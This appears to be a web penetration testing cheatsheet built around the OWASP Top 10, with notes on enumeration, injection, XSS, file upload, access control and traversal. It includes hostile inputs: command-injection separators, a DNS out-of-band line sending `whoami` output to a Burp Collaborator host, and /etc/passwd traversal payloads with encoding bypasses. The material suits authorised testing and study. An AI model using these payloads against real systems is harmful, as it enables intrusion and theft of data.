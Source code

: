 
# Methodology // Exploitation Cheatsheet

[OWASP Top 10](https://www.owasp.org/images/7/72/OWASP_Top_10-2017_%28en%29.pdf.pdf)

[OWASP checklist](https://github.com/tanprathan/OWASP-Testing-Checklist)

  - Follow along with [OWASP release 4.0](https://www.owasp.org/images/1/19/OTGv4.pdf) for each section

<details>
  <summary>Enumeration</summary>
  <br>
  
  ## Content discovery
  
   - What is the server running on/versions?
    - Wappalyzer 
    - Response headers
    - Inspect source
    - Fingerprint server
    
          httprint -P0 -h <IP> -s /usr/share/httprint/<signature file>
  
  ## Vulnerability/misconfiguration scanning
  
   - Nikto 
   
   - [Header scanning](https://securityheaders.com/)

  
  [Visual site mapper](http://www.visualsitemapper.com/)
  
  Wappalyzer extension for server/web app details
  
  ## Subdomain discovery
  
  - Sublist3r (scraping)
  - SubFinder-o
  - [assetfinder](https://github.com/tomnomnom/assetfinder)
   
        assetfinder <domain.TLD>
        
         By default will also find related assets that may not be in the searched domain.
        
          --subs-only   #will only find subdomains
   
  - AMass
  
  - [gowitness](https://github.com/sensepost/gowitness)
  
     Takes screenshots of websites
  
  - [httprobe](https://github.com/tomnomnom/httprobe)
  
      Will check if subdomains responds
 
  - [waybackurls](go get github.com/tomnomnom/waybackurls)
  
      Checks URLs against the wayback machine
  
  ## Directory discovery
  
  - dirbuster
  
  Also add file extensions related to underlysing software.

 Wordlists
 
    /usr/share/wordlists/dirb/
    /usr/share/wordlists/dirbuster/
</details>

<details>
<summary>Learning the application</summary>
  While running Burp, run through the site.
  How is everything handled? (pages, files, auth)
  What is the application for? (Photo storage, blog, store)
  
</details>


<details>
  <summary>Possible bug leads</summary>
  <br>
  
  **Check Burps passive scanner to see if anything sticks out.**
  
  **Login page**
    Injection possible?
    Type of DB?
  
  **User input/ input that stays on page**
  
  **Cookies**
  
  **Ability to upload files**
  
  **URL tells**
  
  **40X unauthorized pages**
    Verb tampering
  
</details>

-----------------------------------------------------------------------------

<details>
  <summary>SQLi</summary>
  <br>
  [Injection](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A1-Injection)
  
  SQL statements begin with verbs.
 - Common SQL verbs:
        - SELECT
        - INSET
        - DELETE
        - UPDATE
        - DROP
        - UNION
   
   - Terms:
        - WHERE - Filters records based on specific condition
        - AND/OR/NOT - Filter records based on multiple condtions
        - ORDER BY - Sorts records in ascending/descending order
        
   - Special characters:
        - ' and " - string delimeters
        - -- , /* and #  - Comment delimiters
        - * and %  - wildcards
        - ; - ends SQL statement
        - Others that follow programmatic logic - = , + , > , < , () , etc
        
   Example:
   
        <verb> <* or column> FROM <Table name> <Term / Condition>  
</details>


<details>
  <summary>Broken Authentication</summary>
  <br>
   
   [Broken Authentication](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A2-Broken_Authentication)

   Application functions related to authentication and session management are often implemented incorrectly, allowing attackers to compromise passwords, keys, or session tokens, or to exploit other implementation flaws to assume other users’ identities temporarily or permanently.
   
    - Testing login/password recovery error for username enumeration
    
    - Session fixation
        - How are session IDs handled? In URL or cookie? Are they encrypted/handled properly?
        - Does logging out revoke the cookie? Immediatly?
        - Is there a timeout on the session cookie?

</details>


<details>
  <summary>Sensitive Data Exposure</summary>
  <br>
   
 [Sensitive Data Exposure](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A3-Sensitive_Data_Exposure)
 
 Many web applications and APIs do not properly protect sensitive data, such as financial, healthcare, and PII. Attackers may steal or modify such weakly protected data to conduct credit card fraud, identity theft, or other crimes. Sensitive data may be compromised without extra protection, such as encryption at rest or in transit, and requires special precautions when exchanged with the browser.
 
   - Stored credentials in site/site scripts
   
   - Backup directories
   
   - Dev directories
   
   - Internal data
   
   - Not in a dir accessable to anyone
   
   - Not Encrypted sensitive data if accessible
   
   - Are appropriate headers applie so attacks against a session cannot occur? Mitm/downgrade/etc
      - [Header scanning](https://securityheaders.com/)
      
   - Does it support new/degraded encryption. 
       
         nmap --script=ssl-enum-ciphers -p 443 <URL>
</details>


<details>
  <summary>XXE</summary>
  <br>
   
   [XML External Entities](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A4-XML_External_Entities_(XXE))
   
   Many older or poorly configured XML processors evaluate external entity references within XML documents. External entities can be used to disclose internal files using the file URI handler, internal file shares, internal port scanning, remote code execution, and denial of service attacks. An XML entity is like a variable that you can call into the page later. On the page you care only able to use alphanumeraic characters for strings, however you can call in an entity that contains special characters. You will notice the SYSTEM key word to let the parser know that the resource is external, i.e can pull data from the system. 
   
   [XXE Payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)
   
  
</details>

<details>
  <summary>Broken Access Control</summary>
  <br>
  
  [Broken Access Controls](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A5-Broken_Access_Control)
  
  Restrictions on what authenticated users are allowed to do are often not properly enforced. Attackers can exploit these flaws to access unauthorized functionality and/or data, such as access other users’ accounts, view sensitive files, modify other users’ data, change access rights, etc


   - Look for client side code that handle data incorrectly
       - Hidden fields that have password/ UID data that can be minipulated
       - Cookies that improperly control access (i.e IsAdmin cookie)
       - 
   
   <details>
    <summary>403 restrictions bypass</summary>
     <br>
   
     Try other HTTP methods
   
       Try headers:
   
       X-Original-URL: <path>
     
       X-Rewrite-URL: <path>
   
   </details>
</details>


<details>
  <summary>Security Misconfiguration</summary>
  <br>

   [Security Misconfiguration](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A6-Security_Misconfiguration)
   
   Security misconfiguration is the most commonly seen issue. This is commonly a result of insecure default configurations, incomplete or ad hoc configurations, open cloud storage, misconfigured HTTP headers, and verbose error messages containing sensitive information. Not only must all operating systems, frameworks, libraries, and applications be securely configured, but they must be patched/upgraded in a timely fashion.
</details>


<details>
  <summary>XSS</summary>
  <br>
   [XXS](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A7-Cross-Site_Scripting_(XSS)) 
    
   [Portswigger Cheatsheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
   
   XSS flaws occur whenever an application includes untrusted data in a new web page without proper validation or escaping, or updates an existing web page with user-supplied data using a browser API that can create HTML or JavaScript. XSS allows attackers to execute scripts in the victim’s browser which can hijack user sessions, deface web sites, or redirect the user to malicious sites. Note that reflected and DOM based XSS require social engineering. 
   
  [Payloads](https://github.com/pgaijin66/XSS-Payloads/blob/master/payload.txt)
   
   Blacklist bypassing:
    
     - Pay around with what is beng removed with input is entered. 
     
      + 
      
      <<  >> /
      
      Uppercase/lowercase
      
      encoding
   
</details>

<details>
  <summary>Insecure Deserialization</summary>
  <br>
   
   [Insecure Deserialization](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A8-Insecure_Deserialization)
   
   Taking data that is serialized (taking data, and converting it to a different format), and deserializing it. Insecure deserialization often leads to remote code execution. Even if deserialization flaws do not result in remote code execution, they can be used to perform attacks, including replay attacks, injection attacks, and privilege escalation attacks. 
   
   https://github.com/frohoff/ysoserial
   
</details>

<details>
  <summary>Using Components with Known Vulnerabilities</summary>
  <br>
   
   [Using Components with Known Vulnerabilities](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A9-Using_Components_with_Known_Vulnerabilities)
   
   Components, such as libraries, frameworks, and other software modules, run with the same privileges as the application. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover. Applications and APIs using components with known vulnerabilities may undermine application defenses and enable various attacks and impacts. Look for CVE or known vulnerabilities with software versions the target is running.
</details>

<details>
  <summary>Insufficient Logging&Monitoring</summary>
  <br>
   
   [Insufficient Logging&Monitoring](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A10-Insufficient_Logging%252526Monitoring)
   
 Insufficient logging and monitoring, coupled with missing or ineffective integration with incident response, allows attackers to further attack systems, maintain persistence, pivot to more systems, and tamper, extract, or destroy data. Most breach studies show time to detect a breach is over 200 days, typically detected by external parties rather than internal processes or monitoring.
</details>


<details>
  <summary>Parameters</summary>
  <br>
  
  Garbage info ( symbols, negative intigers)
  
  Other account tokens, token mixing
  
  HPP
  
</details>


<details>
  <summary>File Upload</summary>
  <br>
  
  Things to think about:
  
    - File size limit for DoS
  
    - Santized filenames ? buffer overflow
  
    - How are zip files handeled if accepted?
  
    - How are files renamed / accessed
  
    - Check Content-Type header
    
    - is it a blacklist or a whitelist
    
    - How are the files being varified? Name, POST form or file content?
  
  Payloads: 
  
   ## manual testing bypass
    
    .PhP .php3 .php5
    
    .php00.png
    
    .php (1).png
  
  ## Use Burp intruder against the wordlist inder /usr/share/wordlists/dirb/
    
    
   ## Editing upload request 
</details>


<details>
  <summary>Open redirects</summary>
  <br>
 
  If the site redirects.
  
  Server side: 
   
    - Referer in Http request
    - Checking if only relative / are allowed. // is a protocol agnostic, absolute URL. Try that.
  
  Client side:
  
    - window.location how is it checked? 
</details>

<details>
  <summary>Privilege Escalation</summary>
  <br>
  
  Cookies:
     How are sessions being held in cookies. Vuln to tampering (no digital sig)?
     What other info is in the cookies? 
     Try to see if the server will take untrusted data from your requests.
     Encrypted?
      
  <details>
  <summary>Try Horizontal escalation:</summary>
  <br>
  Horizontal privilege escalation occurs when an application allows the attacker to gain access to resources which normally would have been protected from an application or user. The result is that the application performs actions with the same but different security context than intended by the application developer or system administrator; this is effectively a limited form of privilege escalation (specifically, the unauthorized assumption of the capability of impersonating other users). 
  </details>   

  Finding a way tio make requests as an admin 
   
  <details>
  <summary>Vertical Escalation</summary>
  <br>
  This type of privilege escalation occurs when the user or process is able to obtain a higher level of access than an administrator or system developer intended, possibly by performing kernel-level operations. 
  </details>
</details>

<details>
  <summary>Session Fixation</summary>
  <br>
  
  Can you take control of an authenticated users session using the sessionID.
  
  - Use the sessionID that has already been established
  
  - Craft a sessionID and see if that sticks. i.e www.site.com/login?jsessionID=CraftedID 
    Login and see if the sessionID stays the same.
  
</details>


<details>
  <summary>Command Injection</summary>
  <br>

 Areas with user input that could have its handleing manipulated to run an OS command.

   Parrameters sent such as those in URLs i.e ?filename=  or user input.
  
  Command seperators which allow for commands to be chained together. 
   nix/Windows
   
    & 
    && (extra & separates the injected command from whatever follows the injection point.)
    |
    ||
    
   Unix
    
    ;
    0x0a or /n (newline)
    
   Unix. Back ticks or dollar character can be used to perform inline execution of an injected command within the original command. 
     
    ' Command ' 
    $(Command)
    
  Note that the different shell metacharacters have subtly different behaviors that might affect whether they work in certain situations, and whether they allow in-band retrieval of command output or are useful only for blind exploitation.

 Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to  terminate the quoted context (using " or ') before using suitable shell metacharacters to inject a new command. 


  Useful commands 

    Purpose of command 	Linux 	Windows
    Name of current user 	whoami 	whoami
    Operating system 	uname -a 	ver
    Network configuration 	ifconfig 	ipconfig /all
    Network connections 	netstat -an 	netstat -an
    Running processes 	ps -ef 	tasklist 
    
   Blind:
    
   wait X seconds to test
   
     ping -c X 127.0.0.1 
     
   Rediecting blind output
   
    whoami > /<writable folder>
    
    Then naviage to that file  www.example.ca/<writeable file>
     
     
   Note that the file may only be accessable how the server allows it to be accessed. 
   Example: you write to an image directory but the server only allows the files to be accessed via 
      
       /image?filename=myfile.txt 
       so /image/myfile.txt may not work.
   
   Out-of-band
   
   Having the server interact with another system you control 
   
    ping BurpCollab
    
   Exfultrate data using out-of-band
   
    $(nslookup `whoami`.c2f2evzg76x5nz0z7m8uwsvvrmxdl2.burpcollaborator.net)
     
   Which will result in this request to my DNS server
    
   [![DNS-request.png](https://i.postimg.cc/L41gCYwc/DNS-request.png)](https://postimg.cc/23C536zG)

</details>

<details>
  <summary>Directory Traversal</summary>
  <br>
  Allows the reading of files on the server that is running the vulnerable application by manipulating a parameter. 
 
     /image?filename=../../../etc/passwd
 
 Attempt with abosule and relative paths as one or the other may be blocked/not blocked.
 
 Bypassing stripped traversal
 
  ....// and ...\/ will strip the detected ../ and ..\ from the centre and the outsides will come together to make ../.
  If what gets parsed / removed is responded use that to try to find a way to bypass. 
  
  encoding:
  
    ..%252f (takes away the 25 and you are left with the / encodded)
    ..%c0%af
  
  Some applications transmit the full path via the request, you may need to append your traversal to that.
 
    /image?filename=/var/www/images/../../../../etc.passwd
    
  Bypass required endings to a file
  
   %00 (null byte)
   
    passwd%00.png
    
  Note that depending on how the server sends thse back you may have to curl the request.
  
    curl https://ac8d1f3e1f7f4d4080c322dc0035009c.web-security-academy.net/image?filename=../../../../etc/passwd%00.jpg

 
</details>

<details>
  <summary>Sub Domain Takeover</summary>
  <br>
  
  If a sub domain that is found belonging to a target that is unused may be vulnerable to sub domain takeover. 
  
  Signs: 
  
  Exploit:
</details>


<details>
  <summary>SSRF</summary>
  <br>
  
  - Bypass SSRF fix. Change HTTP version from 1.1 to 0.9 and remove the host header completely. On HTTP/0.9 there is no need for a host header.
</details>



<details>
  <summary></summary>
  <br>
</details>
